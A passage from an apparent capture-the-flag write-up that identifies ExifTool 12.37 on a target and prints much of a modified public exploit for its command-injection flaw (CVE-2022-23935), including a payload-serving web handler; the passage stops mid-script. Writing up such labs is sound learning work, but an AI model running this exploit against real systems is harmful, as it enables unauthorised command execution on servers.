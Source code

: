 Application is using `exiftool` version 12.37.

And there is command injection vulnerability [CVE-2022-23935](https://nvd.nist.gov/vuln/detail/CVE-2022-23935) in ExifTool <12.38.

# Foothold

## Exiftool CVE-2022-23935

Description -> "`lib/Image/ExifTool.pm` in ExifTool before 12.38 mishandles a `$file =~ /\|$/` check, leading to command injection."

Exploit script, this is a modified to automate file upload in original script -> https://github.com/BKreisel/CVE-2022-23935
```py
#!/usr/bin/env python3

"""
This is a modified version of Original Script - https://github.com/BKreisel/CVE-2022-23935

Modified By: Poorduck
Usage: python3 script.py [IP] [PORT]
"""

import argparse
import rich
import socketserver
import sys
from functools import partial
from http.server import SimpleHTTPRequestHandler
import requests as r
import threading

# Smallest Possible valid JPEG
# https://gist.github.com/scotthaleen/32f76a413e0dfd4b4d79c2a534d49c0b
JPEG_BYTES = b"\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xFF\xDB\x00" \
             b"\x43\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF" \
             b"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF" \
             b"\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xFF\xC2\x00" \
             b"\x0B\x08\x00\x01\x00\x01\x01\x01\x11\x00\xFF\xC4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00" \
             b"\x00\x00\x00\x00\x00\x00\x00\x00\x00\xFF\xDA\x00\x08\x01\x01\x00\x01\x3F\x10"

class WebHandler(SimpleHTTPRequestHandler):
    def __init__(self, payload: str, *args, **kwargs):
        self.payload = payload
        super().__init__(*args, **kwargs)
    
    def do_GET(self):
        success("Got Request. Sent Payload 🏴‍☠️")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(self.payload.encode())
        sys.exit(0)
    
    def log_message(self, format, *args):
        pass

def error(txt: str):
```